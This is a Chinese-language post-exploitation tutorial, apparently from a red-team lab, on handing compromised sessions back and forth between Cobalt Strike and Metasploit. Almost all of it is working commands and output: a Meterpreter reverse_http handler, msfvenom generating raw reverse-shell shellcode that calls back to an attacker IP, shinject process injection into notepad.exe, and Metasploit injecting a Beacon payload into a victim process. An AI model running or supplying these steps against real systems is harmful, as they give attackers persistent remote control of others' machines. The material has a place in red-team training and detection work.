 # Session Passing

Cobalt Strike和其他一些C2框架（如metasploit）互相传递session，这样做的好处有：

利用 Cobalt Strike 所没有的框架内的功能。
如果当前访问丢失，请使用不同的 C2 框架作为备份访问。
模拟类似的 TTP。

# Cobalt Strike->metasploit

1. 首先在metasploit起一个监听，需要使用```windows/meterpreter/reverse_http```payload (只支持x86 Meterpreter)

```
root@kali:~# msfconsole

msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST eth0
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started HTTP reverse handler on http://10.10.5.120:8080
```

2. 记住上面的IP：10.10.5.120，端口:8080

3. Cobalt Strike建立一个监听，监听的名字是：metasploit

```
In Cobalt Strike, go to Listeners > Add and set the Payload to Foreign HTTP. Set the Host to 10.10.5.120, the Port to 8080 and click Save.
```

4. 传递session到msf
```
beacon> spawn metasploit
[*] Tasked beacon to spawn (x86) windows/foreign/reverse_http (10.10.5.120:8080)
```

5. msf接收到session
```
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: ofosht99) Staging x86 payload (176220 bytes) ...
[*] Meterpreter session 1 opened (10.10.5.120:8080 -> 10.10.17.231:53951)

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  1         meterpreter x86/windows  DEV\bfarmer @ WKSTN-1  10.10.5.120:8080 -> 10.10.17.231:53951 (10.10.17.231)
```

# 在Cobalt Strike使用```shinject ```命令把msf的payload注入到靶机进程

1. msf生成payload（支持x64）
```
root@kali:~# msfvenom -p windows/x64/meterpreter_reverse_http LHOST=10.10.5.120 LPORT=8080 -f raw -o /tmp/msf.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201308 bytes
Saved as: /tmp/msf.bin
```

2. 上传到CS的客户端所在机器，如果CS客户端也是在kali，那么这一步不是必须的
```
C:\Payloads>pscp root@kali:/tmp/msf.bin .
msf.bin                   | 196 kB | 196.6 kB/s | ETA: 00:00:00 | 100%
```

3. 注入进程，这里选择记事本（notepad.exe）
```
beacon> execute C:\Windows\System32\notepad.exe
beacon> ps

 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 1492  4268  notepad.exe                  x64   1           DEV\bfarmer

beacon> shinject 1492 x64 C:\Payloads\msf.bin
```

4. msf收到rev shell
```
msf6 exploit(multi/handler) > exploit

[*] Started HTTP reverse handler on http://10.10.5.120:8080
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: rumczhno) Redirecting stageless connection from /N1ZSg3AJ641CWUNbIhhT5QWcTIqjJ_npAOt9u8b01bCZLPFvg0YNTQPPZpC2osS8NoHGOLaUyHHR with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] http://10.10.5.120:8080 handling request from 10.10.17.231; (UUID: rumczhno) Attaching orphaned/stageless session...
[*] Meterpreter session 2 opened (10.10.5.120:8080 -> 10.10.17.231:53793)
```

# 从msf的session注入Cobalt Strike的payload到靶机的进程中

1. Cobalt Strike生成payload, select Raw as the Output type and select Use x64 payload
```
Attacks > Packages > Windows Executable (S)
```

2. 传到kali攻击机

3. 使用的msf的```post/windows/manage/shellcode_inject```模块，把Cobalt Strike的payload注入到进程中

```
msf6 > use post/windows/manage/shellcode_inject
msf6 post(windows/manage/shellcode_inject) > set SESSION 1
msf6 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/beacon.bin
msf6 post(windows/manage/shellcode_inject) > run

[*] Running module against WKSTN-1
[*] Spawned Notepad process 4560
[+] Successfully injected payload into process: 4560
[*] Post module execution completed
```